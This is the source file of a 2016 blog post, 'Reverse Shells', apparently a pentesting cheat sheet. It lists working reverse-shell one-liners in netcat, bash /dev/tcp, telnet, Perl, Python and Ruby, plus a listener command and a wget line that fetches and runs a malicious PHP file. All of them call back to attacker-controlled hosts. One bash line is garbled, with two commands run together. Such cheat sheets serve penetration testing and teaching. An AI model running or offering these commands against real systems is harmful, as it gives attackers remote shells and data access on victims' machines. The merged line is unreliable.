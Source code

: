 ```yaml
---
layout: post
comments: true
title: "Reverse Shells"
description: "quick and dirty reverse shells"
tags: ["Security", "Offense", "Reverse-Shell"]
date: 2016-12-27
---
```


Reverse shells can be used to execute commands or collect data from another computer. The concept is that the attacker opens a listening port on which the victim (through some exploit) connects to the attacker over tcp. This configuration also works vice versa which is known as a bind shell.

It's important to consider what software the victim might have on their machine to enable this connection, thus using built in tools can be a smart approach.

##### Here's how you start the listener to connect to the vicitm (using netcat):

	attacker$ nc -l -v attackerip 4444


##### Netcat

	nc <attacker_ip> <port> -e /bin/bash

##### no -e flag? use the GAPING_SECURITY_HOLE technique

	mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe

##### /dev/tcp

	/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1

##### Telnet - GAPING_SECURITY_HOLE

	mknod backpipe p; telnet <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe

##### PHP

	wget -O /tmp/bd.php <url_to_malicious_file> && php -f /tmp/bd.php

##### Bash

	bash -i >& /dev/tcp/10.0.0.1/8080 0>&10<&196;exec 196<>/dev/tcp/attackerip/4444;

	sh <&196 >&196 2>&196

	exec 5<>/dev/tcp/attackerip/4444

	cat <&5 | while read line; do $line 2>&5 >&5; done  # or:

	while read line 0<&5; do $line 2>&5 >&5; done

##### PERL

	perl -MIO::Socket -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr => "127.0.0.1:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

##### Python

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

##### Ruby

	ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

##### Further Reading

[http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html][1]

[https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem][2]

[1]:	http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html
[2]:	https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem
